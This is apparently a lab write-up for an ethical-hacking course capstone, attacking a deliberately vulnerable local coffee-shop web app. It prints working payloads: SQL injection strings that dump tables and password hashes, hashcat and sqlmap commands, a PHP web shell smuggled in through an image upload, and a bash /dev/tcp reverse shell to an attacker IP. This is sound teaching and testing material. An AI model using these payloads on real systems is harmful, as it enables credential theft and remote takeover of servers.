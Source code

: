 ```yaml
--- 
title: "Web App Exploit Project [TCM-Security CEH Capstone]"
date: 2024-06-25 12:00:00 -100
image: /assets/images/Coffe Shop/PEH.png
categories: [CTF, pentest]
tags: [xss, penetration testing]    # TAG names should always be lowercase
---
```

Cover image by [Freepik](https://www.freepik.com/)

_This is a straightforward web application exploit where we will leverage vulnerabilities in a poorly designed website. The goal is to find exploits avaialbe and if possible gain shell access to the device hosting the application. The web application lives in a container located on our local machine. As the title says, this is the capstone for TCM-Securities Practical Ethical Hacking course_


Navigating to our localhost/capstone We see the following webpage. 

![Image of the website](/assets/images/Coffe%20Shop/Website%20Pic.png)
_Coffee store application_

I clicked on one of the available items listed and it allows us to enter a comment. To which I tried a very basic XSS POC

```javascript
<script>alert(1)</script>
```

![XSS](/assets/images/Coffe%20Shop/Coffe%20XSS%20example.png)

Great, our first finding is the XSS vulnerability. I also noticed the URL is also may be vulnerable to SQL injection attacks as it directly reflects what's in the URL

![XSS2](/assets/images/Coffe%20Shop/URL%20Reflected%20back%20at%20us.png)

{% include tip.html content="Input sanitization & encoding user input can help prevent this types of attacks." %}

Manipulating the URL with a simple sql injection statement allows me to retreive all the coffees from the database

```sql
coffee.php?coffee=1' or 1=1-- -
```

Since 1=1 equates to true we get all the available items. The comment delimiter -- - means that anything after it will be treated as comment and thus ignored

![Simple SQL exploit](/assets/images/Coffe%20Shop/XSS%20Injection%202.png)

Great, so with this POC working, we can try to extract the number of columns we're dealing with. Glancing at the image below, there's probably 7 columns

![Number of Columns](/assets/images/Coffe%20Shop/Number%20of%20columns.png)

Extracting the number of columns using the following line

```sql
coffee=1' union select null,null,null,null,null,null,null-- -
```

Since the page still loads, it indicates that **we have confirmed there is indeed 7 columns** and can further exploit the database

![Confirmed columns](/assets/images/Coffe%20Shop/Confirmed%20number%20of%20columns.png)

After enumerating the number of columns, we need to know what the actual table names are. I opted to just replace null with TABLE_NAME for every column placeholder

```SQL
1' union select TABLE_NAME,TABLE_NAME,TABLE_NAME,TABLE_NAME,TABLE_NAME,TABLE_NAME,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES-- -
```

`INFORMATION_SCHEMA.TABLES` contains information about all the tables in the database

All the tables are dumped 
![Dumped Tables](/assets/images/Coffe%20Shop/Table_names.png)

Scrolling down, we see the non standard SQL tables that are probably related to this application

![Related tables](/assets/images/Coffe%20Shop/app%20tables.png)

Let's enumerate the columns as well

```SQL
coffee=1'union select COLUMN_NAME,COLUMN_NAME,COLUMN_NAME,COLUMN_NAME,COLUMN_NAME,COLUMN_NAME,COLUMN_NAME%20FROM%20INFORMATION_SCHEMA.COLUMNS-- -
```

Important columns obtained 👌

![Password](/assets/images/Coffe%20Shop/Password.png)

Let's use the information on our tables and columns to extract the password from the users table

```SQL
coffee=1' union select null,username,password,null,null,null,null FROM users-- -
```

![password obtained](/assets/images/Coffe%20Shop/Password%20Hashes.png)

Password hashes obtained. Now we need to find out what kind of hash we're dealing with in order to crack them

It looks like both my offline hash cracking tools `hash-identifier` and `hashid` could not identify the hash

![failed to identify](/assets/images/Coffe%20Shop/Unknown%20hash.png)

I'll opt for an online hash identifier tool instead

![Hash Identified](/assets/images/Coffe%20Shop/Hash%20Identified.png)

The hash is identified as potentially bcrypt

Now that we have an idea of what hash we have. Let's look up the corresponding hashcat module for blowfish, bcrypt

Utilizing the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes) we can see that blowfish, bcrypt corresponds to the hashcat 3200 mode

{% include warning.html content="Cracking hashes is resource intensive and should not be done on VMs with limited resources" %}

```bash
hashcat -m 3200 hashes.txt -w2 /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt
```

We can see from the output that the hash obained from Jeremy `$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy` correspoonds to the password `captain1`

![Jeremy's Password](/assets/images/Coffe%20Shop/Hash%20revealed%20password.png)


# Utilizing SQLMap

[SQLmap](https://sqlmap.org/) is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications.

To utilize SQLmap, we need to capture the request to the web application. To do this we will use a tool built into Kali called Burpsuite to capture the request, then copy and paste that into a text file called `request.txt`

![Request](/assets/images/Coffe%20Shop/Burp%20request.png)

```bash
sqlmap -r request.txt --level-2
```

The output tells us that the applications coffee parameter is vulnerable to SQL injection and confirmed the back-end DBMS is MySQL. Vulnerabilities include boolean-based blind, time-based blind, and UNION query injection

![SQL map output](/assets/images/Coffe%20Shop/SQLmap%20output.png)

Let's modify our request to dump the users table

```bash
sqlmap -r request.txt  -T users -dump  
```

![passwords](/assets/images/Coffe%20Shop/sqlmap%20passwords.png)

Now we have every user & admins hashed password. Since we already cracked jeremy's password earlier. We can just login with that

![Nothing different](/assets/images/Coffe%20Shop/Nothing%20different.png)

We don't immediately see anything different or any type of admin panel available to me so I'm going to run a ffuf scan to enumerate directories

{% include tip.html content="Enumerate directories before you attempt to exploit to avoid this problem" %}

```bash
 ffuf -u http://localhost/capstone/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -recursion
```

![ffuf scan](/assets/images/Coffe%20Shop/admin_php.png)

Running the following ffuf scan enumerated `/admin/admin.php` for us. We will login with Jeremy's admin credentials that we obtained earlier and navigate to that 

![Add Coffee Page](/assets/images/Coffe%20Shop/add%20new%20coffee.png)

It looks like we have the ability to upload. Let's see what happens when we upload our new coffee item

![MLG Coffee](/assets/images/Coffe%20Shop/MLG%20Coffee.png)

It looks like we can successfully upload. We'll use the inspector in the browser to view the image source

![Image source](/assets/images/Coffe%20Shop/image%20location.png)

From here we will edit the request in brupsuite to include 

![File named changed](/assets/images/Coffe%20Shop/File%20name%20changed.png)

As you can see from the picture above we had to change the file name to a .php file so that it would execute our php shell. We added the php reverse one liner that take the parameter from the URL and executes it as a system command on the server. We also had to remove most of the image data below the [magic byte](https://en.wikipedia.org/wiki/List_of_file_signatures) `PNG`

```bash
<?php system($_GET['cmd']); ?>
```

![PHP One Liner](/assets/images/Coffe%20Shop/php%20one%20liner.png)

From checking the image source prevously, we will navigate to our image url `url/assets/<image number>.php?cmd=whoami` and test the simple command `whoami`

![RCE](/assets/images/Coffe%20Shop/RCE.png)

And boom goes the dynimaite, we have RCE. Let's set up our netcat listenr to allow the incoming reverse shell that we're going to set up in a seoncd

```bash
nc -lvnp 9001
```

![netcat](/assets/images/Coffe%20Shop/netcat.png)

Now let's change the request from `whoami` to this bash reverse shell. We should also encode it for good measure

```bash
http://localhost/capstone/assets/21.php?cmd=/bin/bash -c 'bash -i >& /dev/tcp/192.168.101.130/9001 0>&1'

#URL encoded version
http://localhost/capstone/assets/21.php?cmd=/bin/bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.101.130%2F9001%200%3E%261%27
```

![Reverse Shell Obtained](/assets/images/Coffe%20Shop/Shell%20obtained.png)

And GG, we have successfully compromsied this container. It's crucial to avoid security vulnerabilites like XSS attacks. The URL & comment section appeared to lack any [input validation](https://www.sciencedirect.com/topics/computer-science/input-validation#:~:text=Input%20validation%20is%20the%20process,standard%20defined%20within%20the%20application.) and should valid the type of input being entered to ensure safe characters. 